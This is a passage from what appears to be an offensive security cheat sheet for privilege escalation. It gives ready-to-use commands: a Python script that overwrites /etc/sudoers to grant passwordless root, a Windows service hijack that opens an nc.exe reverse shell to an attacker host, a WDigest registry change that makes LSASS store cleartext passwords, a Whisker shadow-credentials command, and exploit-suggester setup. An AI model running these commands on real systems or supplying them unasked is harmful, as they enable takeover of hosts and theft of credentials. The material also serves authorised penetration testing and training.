 #### Option 2

```c
#!/usr/bin/env python
import os
import sys
try:
       os.system('echo "$USER ALL=(ALL) NOPASSWD: ALL" > /etc/sudoers')
except:
       sys.exit()
```

### VSS

> https://docs.microsoft.com/en-us/windows/security/identity-protection/access-control/active-directory-security-groups#bkmk-serveroperators

#### Abusing Server Operator Group Membership to get a Reverse Shell

```c
$ sc.exe config vss binPath="C:\Users\svc-printer\Documents\nc.exe -e cmd.exe <LHOST> <LPORT>"
$ sc.exe stop vss
$ sc.exe start vss
```

### WDigest

#### Store Cleartext Credentials Cleartext in LSASS

```c
PS C:\> Set-ItemProperty -Force -Path 'HKLM:\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest' -Name "UseLogonCredential" -Value '1'"
```

### Whisker

```c
C:\> .\Whisker.exe add /target:<USERNAME>
```

### Windows-Exploit-Suggester

> https://github.com/AonCyberLabs/Windows-Exploit-Suggester

#### Prerequisites

```c
$ python -m pip install xlrd
```

#### Update

```c
$ ./windows-exploit-suggester.py --update
```
